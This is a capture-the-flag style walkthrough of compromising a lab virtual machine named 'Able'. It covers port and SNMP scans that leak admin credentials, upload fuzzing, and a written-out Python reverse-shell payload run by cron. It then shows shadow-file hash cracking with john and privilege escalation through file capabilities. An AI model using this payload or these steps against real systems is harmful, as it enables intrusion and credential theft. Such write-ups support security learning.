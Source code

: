 # Able writeups by Seyptoo.

Scan TCP
----

Let's start by doing a port scan.

    root@Seyptoo:~/htb/wizard/box/Able# nmap -sT -p 1-65535 -oA nmap/able 192.168.0.21

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-04-23 20:19 CEST
    Nmap scan report for 192.168.0.21
    Host is up (0.0016s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    MAC Address: 08:00:27:16:E2:52 (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 3.22 seconds
    root@Seyptoo:~/htb/wizard/box/Able# nmap -sT -p22,80 -sC -sV -oA nmap/able 192.168.0.21

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-04-23 20:20 CEST
    Nmap scan report for 192.168.0.21
    Host is up (0.00049s latency).
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 47:2c:be:2f:88:6f:21:72:ff:a3:0b:3d:12:f0:25:72 (RSA)
    |_  256 a3:ab:98:7a:f4:d0:54:17:13:3a:05:7e:53:e6:bc:18 (ECDSA)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    MAC Address: 08:00:27:16:E2:52 (Oracle VirtualBox virtual NIC)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
    
As you can see, there are two open ports ssh and http.

Scan UDP
----

We will also do a UDP scan on the server. As you can see below there is the SNMP protocol that is open, and public so we can enumerate afterwards.

    root@Seyptoo:~/htb/wizard/box/Able# nmap -sU -oA -sC -sV nmap/udp 192.168.0.21 --min-rate 10000
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-04-23 20:25 CEST
    Nmap scan report for 192.168.0.21
    Host is up (0.0011s latency).
    PORT    STATE SERVICE VERSION
    161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
    | snmp-hh3c-logins: 
    |_  baseoid: 1.3.6.1.4.1.25506.2.12.1.1.1
    | snmp-info: 
    |   enterprise: net-snmp
    |   engineIDFormat: unknown
    |   engineIDData: 6c5ddc433219bf5c00000000
    |   snmpEngineBoots: 11
    |_  snmpEngineTime: 19m20s
    | snmp-sysdescr: Linux Able 4.15.0-47-generic #50-Ubuntu SMP Wed Mar 13 10:44:52 UTC 2019 x86_64
    |_  System uptime: 19m21.44s (116144 timeticks)
    MAC Address: 08:00:27:16:E2:52 (Oracle VirtualBox virtual NIC)
    Service Info: Host: Able

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 2.43 seconds

HTTP
----
On the HTTP server it is a connection form so currently I have no information on the identifiers to connect.

[![forthebadge made-with-python](
https://image.noelshack.com/fichiers/2019/17/2/1556044461-capture-du-2019-04-23-20-34-07.png)](
https://image.noelshack.com/fichiers/2019/17/2/1556044461-capture-du-2019-04-23-20-34-07.png)

So let's try to enumerate the SNMP protocol to gain access.

SNMP Enumeration
----
    root@Seyptoo:/var/www/html# snmpwalk -c public -v1 192.168.0.21
    [...SNIP...]
    iso.3.6.1.2.1.1.6.0 = STRING: "HTTP Credentials : admin:P3ssW0rdCr3ck3d!@:;"
    iso.3.6.1.2.1.1.7.0 = INTEGER: 72
    iso.3.6.1.2.1.1.8.0 = Timeticks: (116) 0:00:01.16
    iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.11.3.1.1
    [...SNIP...]
    
As you can see above, we managed to find the credentials to log on to the admin page.

HTTP Connect
----
[![forthebadge made-with-python](
https://image.noelshack.com/fichiers/2019/17/2/1556044762-capture-du-2019-04-23-20-39-12.png)](
https://image.noelshack.com/fichiers/2019/17/2/1556044762-capture-du-2019-04-23-20-39-12.png)

Once connected, you can access the path for upload file and try to enumerate on this path and see if we can put any file and testing. When I try to import a PHP file, unfortunately I do not have the permissions.

[![forthebadge made-with-python](
https://image.noelshack.com/fichiers/2019/17/2/1556045157-capture-du-2019-04-23-20-45-31.png)](
https://image.noelshack.com/fichiers/2019/17/2/1556045157-capture-du-2019-04-23-20-45-31.png)

Since I do not have access, I decided to create my own extension list and test with burp suite.

    root@Seyptoo:/home/seyptoo# cat list.ext 
    jpg
    php
    php5
    php7
    png
    rb
    py
    config
    xml
    asp
    aspx
    
This is my list for the attack.

[![forthebadge made-with-python](
https://image.noelshack.com/fichiers/2019/17/2/1556045685-capture-du-2019-04-23-20-52-01.png)](
https://image.noelshack.com/fichiers/2019/17/2/1556045685-capture-du-2019-04-23-20-52-01.png)

So I start preparing my attack to find the right extension to then put my file, so as you can see below the python extension is allowed.

[![forthebadge made-with-python](
https://image.noelshack.com/fichiers/2019/17/2/1556045858-capture-du-2019-04-23-20-54-10.png)](
https://image.noelshack.com/fichiers/2019/17/2/1556045858-capture-du-2019-04-23-20-54-10.png)

concretely this machine contains the system of automatic execution thanks to the crontab, suddenly the machine executes the python files every minute. So I'm going to create my payload, to do my reverse shell.

Payload :

    import socket
    import subprocess
    import os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.0.21",9002))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);

Once imported on the server, a minute later I have a shell that appears.

    root@Seyptoo:/home/seyptoo# nc -lvnp 9002
    Listening on [0.0.0.0] (family 0, port 9002)
    Connection from [192.168.0.21] port 9002 [tcp/*] accepted (family 2, sport 46602)
    /bin/sh: 0: can't access tty; job control turned off
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@Able:~$ 
    
Perfect, we managed to do a reverse shell without any error. There is a folder /backup try to enumerate that.

    www-data@Able:/backups$ cat shadow.backup
    [...SNIP...]
    roberto:$6$9mLCnYKx$0oszmyGRlVCE.2c/kI8jOsElKYqt8gdap8dpdPMI5Ks59uK20IZ7jGCIUPB/ePvvbCWOQmo4P2PesqlSp/ina1:18009:0:99999:7:::
    Debian-snmp:!:18009:0:99999:7:::
    james:$6$EFhM/jBS$1s59wKFIirpJoSymC8AsdfsuhJJYqx06lN8sDBaEAgeyFUYBxO5hr/XUzzknPj4k6cxAOl4xAA36ed4Rs25Yh/:18009:0:99999:7:::
    
Let's try cracking passwords with john. 
   
    root@Seyptoo:~/htb# john --wordlist=/home/seyptoo/Téléchargements/rockyou.txt password.hash
    [...SNIP..]
    root@Seyptoo:~/htb# john --show password.hash
    $6$9mLCnYKx$0oszmyGRlVCE.2c/kI8jOsElKYqt8gdap8dpdPMI5Ks59uK20IZ7jGCIUPB/ePvvbCWOQmo4P2PesqlSp/ina1:18009:0:99999:7::: > jessica1
    $6$EFhM/jBS$1s59wKFIirpJoSymC8AsdfsuhJJYqx06lN8sDBaEAgeyFUYBxO5hr/XUzzknPj4k6cxAOl4xAA36ed4Rs25Yh/:18009:0:99999:7::: > password
    
Let's try to connect with the su command.

    www-data@Able:/backups$ su - roberto 
    su - roberto
    Password: jessica1

    roberto@Able:~$ cat user.txt
    518494452b3a78aefd99c71b1faa6395

Perfect we are user, now let's go to privesc.

PrivEsc
----
There is the capacity system set up on the machine, so let's do a simple search with getcap.

    roberto@Able:~$ getcap -r / 2>/dev/null
    /usr/src/linux-headers-4.15.0-47/ubuntu/emergency1 = cap_dac_read_search+ep
    /usr/src/linux-headers-4.15.0-47/ubuntu/emergency = cap_dac_read_search+ep
    /usr/bin/mtr-packet = cap_net_raw+ep

As you can see there are two rather specific files, let's see that more closely. With the emergency file, we can list what's in the folder so let's try to list the /root folder.

    roberto@Able:/usr/src/linux-headers-4.15.0-47/ubuntu$ ./emergency -alv /root
    total 60
    drwx------  4 root root  4096 Apr 23 18:33 .
    drwxr-xr-x 24 root root  4096 Apr 23 16:33 ..
    -rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
    -rw-------  1 root root  8714 Apr 23 18:05 .bash_history
    -rw-------  1 root root    35 Apr 23 18:33 .lesshst
    drwxr-xr-x  3 root root  4096 Apr 23 15:47 .local
    -rw-r--r--  1 root root   148 Aug 17  2015 .profile
    -rw-r--r--  1 root root    66 Apr 23 15:47 .selected_editor
    drwx------  2 root root  4096 Apr 23 17:31 .ssh
    -rw-------  1 root root 10617 Apr 23 18:30 .viminfo
    -rw-r--r--  1 root root    33 Apr 23 17:12 root.txt

We can list the folder /root, now let's try to read the file root.txt with the file emergency1.

    roberto@Able:/usr/src/linux-headers-4.15.0-47/ubuntu$ ./emergency1 /root/root.txt
    6abba532a54c9eb9aa30496fa7f2273d





